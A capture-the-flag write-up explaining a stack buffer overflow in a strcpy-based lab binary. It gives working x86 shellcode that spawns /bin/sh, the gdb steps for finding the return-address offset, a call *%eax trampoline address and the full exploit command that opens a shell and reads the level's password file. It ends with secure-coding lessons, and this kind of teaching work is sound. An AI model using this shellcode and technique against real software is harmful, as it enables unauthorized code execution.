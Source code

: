 ## Level 4: avoid unsafe library functions

The source code on this level is surprisingly simple:
```
void fun(char *str) {
  char buf[1024];
  strcpy(buf, str);
}

int main(int argc, char **argv) {
  // ... 
  fun(argv[1]);
  // ... 
}
```

The problem is obvious:
`strcpy` is well-known to be unsafe,
as it doesn't check if the destination array has enough space to store the source array.
We can overwrite the memory area beyond `buf` using a long command line argument.

If you recall from the previous challenge,
the return address is stored on the stack after local variables.
By writing past the end of `buf`,
we can overwrite the return address,
so that when the function exits,
the execution will jump to where we want,
instead of the real next instruction.

In the previous challenge we could jump to the insecure function `run`.
In this program however,
we don't have such easy target.
On the other hand,
we can bring insecure code inside,
using the input string.
We could inject what is commonly called a *shellcode*:
a small piece of binary code that executes `/bin/sh`.

Implementing such shellcode is beyond the scope of this article.
If you're interested,
it's thoroughly explained in the Smash The Stack article[5].
Essentially it's a modified version of a simple C program like this:
```
#include <stdio.h>

void main() {
   char *name[2];

   name[0] = "/bin/sh";
   name[1] = NULL;
   execve(name[0], name, NULL);
}
```
Writing shellcode is not easy.
After compiling the above program,
there is more work to do,
such as rewriting assembly instructions that use `NULL` values,
as `strcpy` won't copy anything beyond the first `NULL`.

For our purposes,
we can take the finished shellcode from the Smash The Stack article[5],
and for convenience, let's save it in a shell variable:
```
EGG=$(printf '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh')
```
Next,
we need to find the exact location of the return address.
The content of the stack will look something like this when we are inside `fun`:
```
0x0000      content of the local variable buf (1024 bytes)
0x0400+?    the return address
```
That is,
the return address should be a few bytes after the end of `buf`.
We can find the right position using `gdb`.
When we overwrite the return address with something invalid,
`gdb` will print the address it could not jump to.
We can use this to guess the right location.
We know that the size of `buf` is 1024,
so let's run the program with a longer string:
```
$ gdb /levels/level04/level04
(gdb) run $(python -c 'print "A" * 1100')
Starting program: /levels/levels04/level04 $(python -c 'print "A" * 1100')

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```
We have successfully overwritten the return address with "A"s.
Let's try another string,
something that will help us pinpoint the correct position:
```
(gdb) run $(python -c 'print "A" * 1024 + "abcdefghijklmnopqrstuvwxyz"')
Starting program: /levels/levels04/level04 $(python -c 'print "A" * 1024 + "abcdefghijklmnopqrstuvwxyz"')

Program received signal SIGSEGV, Segmentation fault.
0x706f6e6d in ?? ()
```
That looks within our `abc...` sequence.
Let's check the ASCII codes to find the exact location:
```
$ echo abcdefghijklmnopqrstuvwxyz | hexdump -C
00000000  61 62 63 64 65 66 67 68  69 6a 6b 6c 6d 6e 6f 70  |abcdefghijklmnop|
00000010  71 72 73 74 75 76 77 78  79 7a 0a                 |qrstuvwxyz.|
0000001b
```
Since `m=6d n=6e o=6f p=70`,
the return address is in the place of the letters `mnop`.
As there are 12 letters before "m",
we can calculate the target length is 1024 + 12 = 1036.
Let's verify with one last test in `gdb`:
```
(gdb) run $(python -c 'print "A" * 1036 + "BBBB"')
Starting program: /levels/levels04/level04 $(python -c 'print "A" * 1036 + "BBBB"')

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```
Perfect.
If we put the shellcode at the beginning of the buffer,
then our input string will be in this form:
```
SSSSSSSS PPPPPPPPPPPPPPPPPPPPPP AAAA
```
Where `S` indicate the shellcode,
`P` the padding, and `A` the jump address.
We calculated the length of `S + P = 1036`,
to know the length of `P` alone we must find the length of `S`:
```
$ printf $EGG | wc -c
45
```
Thus, the length of the padding should be `1036 - 45 = 991` characters.

The only thing missing is the jump address.
We want to jump to the address of `buf`,
but we cannot really know that.
In the past,
the stack used to be at the same address in all programs,
which was easy to exploit.
Today,
thanks to *Address Space Layout Randomization (ASLR)* used in modern operating systems,
the start address of the stack is randomized,
making it extremely difficult to guess the right location.

There is something else we can try.
On 32-bit x86 processors,
a function that returns a pointer value places its result in register `%eax`.
The result of `strcpy` is the address of the destination,
in our case `buf`.
And since `strcpy` is the last line in the function,
there is nothing else to change the content of `%eax` before the function exits.
Finally,
a `call *%eax` instruction executes the code at the address stored in `%eax`,
so if there is any such instruction inside the code,
we can use its address:
```
$ objdump -d /levels/level04/level04 | grep call.*eax
 8048488:   ff 14 85 1c 9f 04 08    call   *0x8049f1c(,%eax,4)
 80484cf:   ff d0                   call   *%eax
 80485fb:   ff d0                   call   *%eax
```
Bingo!
We can use either `0x080484cf` or `0x080485fb` as the address:
```
$ /levels/level04/level04 $EGG$(python -c 'print "A" * 991')$(printf '\xcf\x84\x04\x08')
/levels/level04 $ cat /home/level04/.password 
paegeiqu
```

## Lessons to learn

- Don't use unsafe library functions like `strcpy`.
  Check the documentation, it usually warns of security issues.

- Always make sure that arrays cannot be written beyond their boundaries.

- Always validate user input, and set reasonable limits to length.

